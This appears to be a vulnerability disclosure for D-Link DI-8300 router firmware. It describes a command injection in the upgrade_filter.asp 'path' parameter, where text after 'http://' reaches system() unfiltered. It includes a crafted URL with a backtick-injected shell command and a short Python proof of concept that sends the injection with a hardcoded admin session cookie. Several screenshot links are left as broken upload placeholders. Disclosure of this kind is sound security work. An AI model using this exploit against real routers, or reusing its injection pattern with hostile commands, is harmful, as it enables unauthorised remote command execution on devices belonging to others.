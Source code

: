 # Firmware:
version:DI_8300-16.07.26A1
download link:http://www.dlink.com.cn/techsupport/ProductInfo.aspx?m=DI-8300
# Description:
In the system dangerous function of the upgrade_filter_asp function, parameters are passed through the GET request mode for the path variable, resulting in command injection vulnerabilities due to careless concerns.
# Analyse:
Obtain the path parameter and check whether the first seven characters are "http://". If yes, concatenate the command and run the system function without filtering the following characters.
![Pasted image 20240806095532](https://github.com/user-attachments/assets/2ba99b64-b74b-4dbd-9ef9-6950956cfaa2)
```
http://192.168.0.1:80/upgrade_filter.asp?path=http://`ps%20%3E%20/002.txt`
```
![Uploading Pasted image 20240806100619.png…]()

Check the firmware shell. The command is successfully executed
![Uploading Pasted image 20240806100840.png…]()

# POC:
```
import requests

ip = "192.168.0.1:80"
payload = "`ps%20%3E%20/jiawen.txt`"

url = "http://"+ip+"/upgrade_filter.asp?path=http://"+payload+""
Cookies = {"wys_userid": "admin,wys_passwd=6B4BED98A39AD592599AF9F3092B1782"}
requests.get(url, cookies=Cookies)
```
